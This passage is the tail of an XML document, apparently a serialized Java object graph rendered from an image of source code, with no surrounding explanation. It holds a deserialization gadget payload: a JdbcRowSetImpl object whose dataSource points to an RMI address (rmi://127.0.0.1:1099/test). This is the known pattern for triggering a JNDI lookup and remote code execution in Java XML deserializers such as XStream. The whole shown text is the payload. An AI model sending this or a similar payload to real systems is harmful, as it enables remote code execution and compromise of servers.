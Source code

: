 ```xml
                                            </nameList>
                                        </context>
                                    </bridge>
                                </bridge>
                                <jaxbObject class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
                                    <javax.sql.rowset.BaseRowSet>
                                        <default>
                                            <concurrency>1008</concurrency>
                                            <escapeProcessing>true</escapeProcessing>
                                            <fetchDir>1000</fetchDir>
                                            <fetchSize>0</fetchSize>
                                            <isolation>2</isolation>
                                            <maxFieldSize>0</maxFieldSize>
                                            <maxRows>0</maxRows>
                                            <queryTimeout>0</queryTimeout>
                                            <readOnly>true</readOnly>
                                            <rowSetType>1004</rowSetType>
                                            <showDeleted>false</showDeleted>
                                            <dataSource>rmi://127.0.0.1:1099/test</dataSource>
                                            <params/>
                                        </default>
                                    </javax.sql.rowset.BaseRowSet>
                                    <com.sun.rowset.JdbcRowSetImpl>
                                        <default>
                                            <iMatchColumns>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                                <int>-1</int>
                                            </iMatchColumns>
                                            <strMatchColumns>
                                                <string>foo</string>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                                <null/>
                                            </strMatchColumns>
                                        </default>
                                    </com.sun.rowset.JdbcRowSetImpl>
                                </jaxbObject>
                            </dataSource>
                        </message>
                        <satellites/>
                        <invocationProperties/>
                    </packet>
                </indexMap>
            </comparator>
        </default>
        <int>3</int>
        <string>javax.xml.ws.binding.attachments.inbound</string>
        <string>javax.xml.ws.binding.attachments.inbound</string>
```